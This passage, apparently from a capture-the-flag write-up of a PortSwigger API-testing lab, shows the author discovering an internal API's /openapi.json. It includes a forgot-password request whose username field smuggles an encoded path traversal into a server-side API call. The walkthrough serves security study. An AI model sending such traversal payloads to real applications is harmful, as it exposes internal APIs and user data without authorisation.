 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/API-Testing/API-5/images/Pasted%20image%2020240510191409.png)

Hmm... Looks like **it returned HTTP status 404 Not Found**.

Also, when the internal API accessed an invalid endpoint, it also said: `Please refer to the API definition`.

Ahh... **I wonder if there's any API documentation on the internal API server**...

**Here's some examples of possible API documentation endpoint:**
```
/api
/swagger/index.html
/openapi.json
```

After trying different endpoints, I found that **`/openapi.json` works**!

```http
POST /forgot-password HTTP/2

csrf=jzd7KrpvqB9nYMaDfeD9faWWUgNf8jBh&username=foobar%2f..%2f..%2f..%2f..%2f..%2fopenapi.json%23
```

By doing so, the server-side request should be resulted in:

```http
GET /api/users/foobar/../../../../../openapi.json#/email
```
